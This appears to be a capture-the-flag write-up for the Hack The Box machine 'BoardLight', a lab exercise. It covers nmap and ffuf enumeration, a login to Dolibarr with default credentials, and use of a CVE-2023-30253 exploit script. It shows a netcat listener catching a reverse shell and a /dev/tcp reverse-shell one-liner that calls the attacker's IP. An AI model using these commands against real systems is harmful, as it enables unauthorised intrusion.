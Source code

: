 ```bash
Aggressive OS guesses: Linux 5.0 (97%), Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   45.54 ms 10.10.14.1
2   46.42 ms 10.129.248.72

```

- **Ports Open**
`22`: SSH, `80`: HTTP
- **Domain Found**: `board.htb`
- **Services**
	- OpenSSH 8.2p1
	- Apache httpd 2.4.41

- **Operating System**
Ubuntu 20.04

#### Web page

- add `board.htb` to `/etc/hosts`

#### Directory Enumeration

Nothing interesting found.

#### Vhost Enumeration

`ffuf -w /usr/share/wordlists/dirb/big.txt -H "Host:FUZZ.board.htb" -u "http://board.htb/"`
- Found: `crm.board.htb`


## Foothold

After adding `crm.board.htb` we come across a login page running `Dolibarr 17.0.0`. 
The first username/password combo I tried worked, lets go! (`admin`:`admin`)
To get a foothold on the machine, I will leverage [CVE-2023-30253](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253) to get a shell on the machine:
```bash
python exploit.py http://crm.board.htb admin admin 10.10.14.45 6969
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection
```
Listener:
```bash
nc -lvnp 6969
listening on [any] 6969 ...
connect to [10.10.14.45] from (UNKNOWN) [10.129.248.72] 58436
bash: cannot set terminal process group (850): Inappropriate ioctl for device
bash: no job control in this shell
# getting a backup shell on the machine just in-case
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ sh -i >& /dev/tcp/10.10.14.45/4444 0>&1 &
</website$ sh -i >& /dev/tcp/10.10.14.45/4444 0>&1 &            
[1] 1635
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$
```